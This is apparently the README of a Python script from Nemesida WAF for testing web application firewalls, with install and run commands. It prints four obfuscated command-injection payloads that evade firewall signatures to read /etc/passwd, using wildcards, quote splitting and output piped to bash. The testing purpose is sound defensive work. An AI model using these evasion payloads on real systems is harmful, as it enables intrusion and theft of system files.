 # WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Turn off ban mode before use.

## When using, do not violate the law. We are not responsible for the use of the program.

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://camo.githubusercontent.com/acd8bc382d0a8c7488a426d8f9817cf9b3de7c1a/68747470733a2f2f696d672e646566636f6e2e72752f73746f72652f323032302f30372f30303134633466633437623066616538636462386637393634383630366435382e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
